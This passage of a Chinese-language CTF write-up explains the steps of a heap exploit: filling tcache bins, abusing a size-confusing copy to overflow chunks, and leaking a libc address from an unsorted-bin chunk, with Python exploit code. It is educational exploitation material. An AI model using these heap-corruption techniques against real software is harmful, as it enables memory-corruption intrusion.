 那就把 Tcache 填好填滿吧 ;)

exploit 中把 Tcache 填滿的部分:
```python
# Fill Tcache
for _ in range(7):
    create(0xa0)
    create(0x60)
    create(0x10)
    create(0x30)
    delete(0)
    delete(1)
    delete(2)
    delete(3)
```
- create 後再 delete 掉就會填一個 bin 到對應 size 的 Tcache
- 第二次 create 照理說會把 Tcache 中的 bin 拿掉
    - 但由於 create 是用 calloc，並不會從 Tcache 拿，所以才能這樣填滿 Tcache

繼續看 exploit
```python
create(0x10) # 0
create(0xa0) # 1
create(0x10) # 2, prevent 0xa0 to be merged by top chunk
create(0x400) # 3
edit(1, b'a'*(0xa0-1), sendline=False)
edit(3, b'b'*(0x400-1), sendline=False)

# Write length 0x400-1 to idx 0 & 2
# It actually only holds 0x10 bytes, leading to memory leak
copy(3, 0)
copy(3, 2)

# Make unsortbin
delete(1)
```
- notes[3] 寫了 0x3ff 個 'b'
- copy(3,0) 會將 0xf 個 'b' 寫到 notes[0].notePtr 中
    - **並設定 notes[0].size 為 0x3ff**
- copy(3,2) 是一樣的效果
- delete(1) 由於前面已經把對應 0xb0 的 Tcache 填滿，這一塊 chunk 就會變成 unsortbin
- notes[1] 對應的 chunk 之 fd 和 bk 現在會存放 libc address

繼續囉
```python
# Leak libc
show(0)
r.recv(0x10) # 'a' from copy(1, 0)
r.recv(0x10) # next chunk's head
libc.address = u64(r.recv(0x8)) - 0x3ebca0 # fd
print('libc: {:#x}'.format(libc.address))
```
- notes[0] 在 notes[1] 前面，且現在 notes[0].size 是 0x3ff
- show(0) 會寫出 0x3ff 個字, leak libc!
